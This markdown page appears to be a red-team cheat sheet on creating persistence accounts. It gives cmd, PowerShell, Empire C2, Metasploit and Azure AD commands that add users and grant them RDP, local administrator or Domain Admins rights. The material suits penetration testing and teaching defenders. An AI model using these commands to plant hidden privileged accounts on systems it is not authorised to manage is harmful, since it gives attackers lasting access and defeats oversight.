 # Account Creation

## Permissions: Administrator | SYSTEM

### 1) Local Account

#### Cmd

##### Create new user

    net user /add "<Username>" "<Password>"

##### Add to RDP Group

    net localgroup "Remote Desktop Users" "<Username>" /add

##### Add to local administrators

    net localgroup administrators "<Username>" /add

#### Powershell

##### Create new user 

    New-LocalUser -Name "<Username>" -NoPassword

##### Add to RDP Group

    Add-LocalGroupMember -Group "Remote Desktop Users" -Member "<Username>"

##### Add to local administrators

    Add-LocalGroupMember -Group "Administrators" -Member "<Username>"

### 2) Domain Account

#### Cmd

##### Create Domain User

    net user "<Username>" "<Password>" /add /domain

##### Add to Domain Admins Group

    net group "Domain Admins" "<Username>" /add /domain

#### Powershell

    $Name = "<Username>"
    $Domain = "<Domain>"
    $Password = "Password123"
    $SecurePass = ConvertTo-SecureString -String $Password -AsPlainText -Force
    $NewUser = New-ADUser `
        -Name "$Name"`
        -SamAccountName "$Name"`
        -UserPrincipalName "$Name@$Domain"`
        -AccountPassword $SecurePass;  
    Enable-ADAccount -Identity "$Name";
    Add-ADGroupMember -Identity "Domain Admins" -Members "$Name"

#### Empire C2

    usemodule/powershell/persistence/misc/add_netuser

##### Local account

    set Domain ''
    set UserName <Username>
    execute

##### Domain Account

    set Domain <Domain>
    set UserName <Username>
    execute

#### Metasploit

    use post/windows/manage/add_user 

### 3) Cloud Accounts

#### Azure Powershell

##### Create Azure user

    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = "<Password>"

    New-AzureADUser `
        -DisplayName "New User" ` 
        -PasswordProfile $PasswordProfile `
        -UserPrincipalName "NewUser@contoso.com" `
        -AccountEnabled $true `
        -MailNickName "Newuser"

##### Add user to Azure Group

    Add-AzureADGroupMember -ObjectId "<ObjectID" -RefObjectId "<RefObject>"
